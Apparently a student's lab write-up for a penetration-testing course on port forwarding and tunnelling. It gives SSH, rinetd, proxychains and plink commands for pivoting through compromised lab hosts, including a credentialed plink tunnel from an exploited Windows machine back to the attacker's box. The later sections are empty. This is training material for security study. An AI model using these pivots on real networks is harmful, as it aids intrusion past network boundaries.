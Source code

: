 # 20.1.2 Port Forwarding
**1.  Connect to your dedicated Linux lab client and run the clear_rules.sh script from /root/port_forwarding_and_tunneling/ as root.**

In preparation for the following exercise we simply need to ssh into our Debian machine and run the required script as root.



**2.  Attempt to replicate the port-forwarding technique covered in the above scenario.**

once our systems are prepared for the exercise we begin by checking the connectivity of both machines. Doing so will show us that although our local, Kali machine is able to reach the internet our Debian lab client will have no connection. 
Local Kali Machine
![[Pasted image 20220727202728.png]]

Debian Lab Client
![[Pasted image 20220727202848.png]]

In order to route Google's traffic to our Debian machine we will be utilizing RINETD, once installed we can navigate to the config folder found at /etc/rinetd.conf. We make the following edit to the configuration fire:
![[Pasted image 20220727203726.png]]
This will forward all traffic our Kali machine receives on port 80 to the Google IP and port and specified earlier.

Upon restarting the service we can see that we are now listening on port 80.
![[Pasted image 20220727203949.png]]

Now to verify our connection, let's switch back to our Debian lab machine and attempt to connect to our listening Kali machine.
![[Pasted image 20220727204428.png]]
And we see we get a 200 OK from google, redirected through our Kali machine.

# 20.2.2 SSH Local Port Forwarding
**1.  Connect to your dedicated Linux lab client and run the clear_rules.sh script from /root/port_forwarding_and_tunneling/ as root.**

As we did previously, we simply need to run the requested script.

**2.  Run the ssh_local_port_forwarding.sh script from /root/port_forwarding_and_tunneling/ as root.**

In addition to the clear_rules.sh script we must also run the ssh_local_port_forwarding.sh script in the same directory.

**3.  Take note of the Linux client and Windows Server 2016 IP addresses shown in the Student Control Panel.**

Running the "ip a" command on the Linux client we see two IP addresses running under two separate network interfaces. This signifies that the machine is connected to two separate networks.
![[Pasted image 20220728154901.png]]
Running "ipconfig" on our Windows machine shows a similar setup.
![[Pasted image 20220728155012.png]]

**4.  Attempt to replicate the smbclient enumeration covered in the above scenario.**

To establish a connection to the Windows client running on the internal network we will need to leverage a tunnel from our Kali machine through the compromised Linux machine, arriving at the Windows server machine. We can do this via the following SSH command:
`sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128`

This utilizes the following SSH syntax:
`ssh -N -L [bind_address:]port:host:hostport [username@address]`

After adjusting our smb.conf file, setting the minimum SMB version to SMBv2 we can restart the service and attempt to enumerate the shares (note we are using "localhost" in the command due to the tunnel).
![[Pasted image 20220728161021.png]]

# 20.2.4 SSH Remote Port Forwarding

**1. Connect to your dedicated Linux lab client via SSH and run the clear_rules.sh script from /root/port_forwarding_and_tunneling/ as root.**

As with previous sections, simply navigate to the proper directory and run the requested scripts as root.

**2. Close any SSH connections to your dedicated Linux lab client and then connect as the student account using rdesktop and run the ssh_remote_port_forward.sh script from /root/port_forwarding_and_tunneling/ as root.**

For this exercise we need to now run the next script while connected via rdesktop. This is to ensure SSH rules are created correctly.
![[Pasted image 20220728174816.png]]

**3. Attempt to replicate the SSH remote port forwarding covered in the above scenario and ensure that you can scan and interact with the MySQL service.**

As we are unable to access the Debian client from our Kali machine via SSH we must initiate the connection on the Debian machine, forwarding the remote port to our local Kali machine. To do this we can use a similar command as we used previously, replacing a few of the variables and flags.

The following command, run on our Debian client should forward the proper ports to our Kali machine:
`ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4`
(note: ensure ssh service is currently running on local machine)
![[Pasted image 20220728175357.png]]

And we now have access to MYSQL being run on the remote Debian client.
![[Pasted image 20220728175558.png]]

# 20.2.6 SSH Dynamic Port Forwarding

**1.  Connect to your dedicated Linux lab client and run the clear_rules.sh script from /root/port_forwarding_and_tunneling/ as root.**

As with previous sections, simply navigate to the proper directory and run the requested scripts as root.

**2.  Take note of the Linux client and Windows Server 2016 IP addresses.**

We can see from our lab control panel the following IPs:
Debian: 192.168.197.44
Windows 2016 Server: 172.16.197.5

**3.  Create a SOCKS4 proxy on your Kali machine, tunneling through the Linux target.**

We can create the proxy using the following command:
`sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128`

**4.  Perform a successful nmap scan against the Windows Server 2016 machine through the proxy.**

First, we then need to setup proxychains to run standard network applications through our created proxy. We do this by simply appended `socks4 127.0.0.1 8080` to our proxychains4.conf file.

Now that proxychains is setup we can use it by adding "proxychains" a the start of our commands. For the requested nmap scan the following command can be used:
`sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110`
![[Pasted image 20220728184302.png]]

**5.  Perform an nmap SYN scan through the tunnel. Does it work? Are the results accurate?**

By altering the previous command from a TCP connect scan (-sT) to a SYN scan (-sS) we get the following results.
![[Pasted image 20220728185447.png]]
Note that all the ports are marked as filtered, indicated an unsuccessful scan. This is due to the lack of a payload for proxychains to forward.
# 20.3.1 PLINK.exe

**1.  Obtain a reverse shell on your Windows lab client through the Sync Breeze vulnerability.**

We can obtain a reverse shell by utilizing our initial buffer overflow payload we crafted in section 11.
![[syncbreeze_buffer_shell.png]]

**2.  Use plink.exe to establish a remote port forward to the MySQL service on your Windows 10 client.**
As we are unable to reach the MYSQL service from our Kali machine we can utiilize the plink.exe application to forward us the port. We do this by executing the plink.exe binary on the Windows machine with the following command:
`plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4`

This will execute plink and instruct it to ssh into our Kali machine with the credentials "kali:ilak" and remote port forward the address/port of our Kali box (10.11.0.4:1234) to the MYSQL port running on localhost (127.0.0.1:3306) We can also pipe "cmd.exe /c echo y" to this command in order provide an answer to the "Store key in chase" question which will be prompted the first time the tool runs.
`cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4`
`cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 192.168.119.197:1234:127.0.0.1:3306 192.168.119.197



**3.  Scan the MySQL port via the remote port forward.**


# 20.4.1 NETSH
**1.  Obtain a reverse shell on your Windows lab client through the Sync Breeze vulnerability.**


**2.  Using the SYSTEM shell, attempt to replicate the port forwarding example using netsh.**

# 20.5.1 HTTPTunneling Through Deep Packet Inspection
**1.  Connect to your dedicated Linux lab client as the student account using rdesktop and run the http_tunneling.sh script from /root/port_forwarding_and_tunneling/ as root.**


**2.  Start the apache2 service and exploit the vulnerable web application hosted on port 443 (covered in a previous module) in order to get a reverse HTTP shell.**


**3.  Replicate the scenario demonstrated above using your dedicated clients.**
